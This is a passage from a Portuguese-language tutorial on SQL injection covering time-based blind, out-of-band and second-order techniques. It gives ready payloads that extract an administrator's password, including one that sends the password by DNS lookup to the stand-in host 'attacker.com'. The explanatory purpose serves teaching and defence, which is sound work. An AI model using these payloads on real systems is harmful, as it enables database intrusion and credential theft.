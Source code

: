 #### 3.2.2 Time-Based Blind SQLi

Esta técnica é uma alternativa quando mesmo as respostas booleanas não são discerníveis. O atacante injeta um comando que força a base de dados a fazer uma pausa por um determinado período de tempo se uma condição específica for verdadeira. Por exemplo, em SQL Server, o comando pode ser `IF (condição) WAITFOR DELAY '0:0:5'`. O atacante mede o tempo de resposta do servidor. Se a resposta demorar 5 segundos a mais do que o normal, ele sabe que a condição injetada foi verdadeira. Uma carga útil completa para extrair o primeiro carácter da password do administrador seria:

```sql
' IF((SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'admin') = 'a') WAITFOR DELAY '0:0:5' --
```

Tal como na abordagem booleana, isto permite a extração de dados carácter a carácter, embora de forma ainda mais lenta.

### 3.3 Out-of-Band (OAST) SQLi: Forçar a Base de Dados a Ligar para Casa

Esta é uma técnica avançada, usada quando as técnicas inferenciais são impraticáveis ou quando a aplicação é muito instável. O atacante injeta um comando que força o servidor da base de dados a iniciar uma ligação de rede "out-of-band" (fora do canal de comunicação principal) para um servidor que o atacante controla. Esta ligação pode ser, por exemplo, uma consulta DNS ou um pedido HTTP.

A grande vantagem desta técnica é que os dados podem ser exfiltrados diretamente através desta ligação. Por exemplo, um atacante pode usar uma carga útil em Microsoft SQL Server para forçar uma consulta DNS que contém a password de um utilizador:

```sql
'; exec master..xp_dirtree '\\'||(SELECT password FROM users WHERE username='admin')||'.attacker.com\a' --
```

Este comando faz com que o servidor da base de dados tente aceder a um caminho de rede. O nome do caminho inclui o resultado da subconsulta (a password do administrador) como um subdomínio. O servidor DNS do atacante (`attacker.com`) recebe este pedido de resolução de nome, regista o subdomínio completo (que contém a password) e, assim, extrai os dados.

### 3.4 Second-Order SQLi: A Bomba-Relógio na Base de Dados

O SQLi de Segunda Ordem é uma variante subtil e particularmente perigosa. Ocorre em duas fases:

- **Armazenamento**: O atacante submete uma entrada maliciosa (por exemplo, um nome de utilizador como `admin'--`) que é "armazenada de forma segura" pela aplicação na base de dados, muitas vezes porque a aplicação valida ou escapa a entrada no momento da inserção.
- **Execução**: Mais tarde, uma outra parte da aplicação recupera estes dados, que agora são considerados "confiáveis" porque vieram da base de dados, e utiliza-os de forma insegura numa consulta dinâmica. Neste ponto, a carga maliciosa é ativada, e a injeção ocorre.

Por exemplo, considere um cenário de duas etapas:

1. **Registo de Utilizador**: Um atacante cria uma conta com o nome de utilizador `atacante' OR username='admin`. A aplicação armazena este valor na tabela de utilizadores.
2. **Alteração de Perfil**: Mais tarde, quando o atacante (agora autenticado) acede à página para atualizar o seu perfil, a aplicação recupera o seu nome de utilizador da base de dados para construir uma consulta de atualização: `SELECT * FROM users WHERE username = 'atacante' OR username='admin'`. A condição `OR` faz com que a consulta recupere os dados do perfil do administrador em vez dos dados do atacante, permitindo-lhe visualizar ou modificar informações privilegiadas.
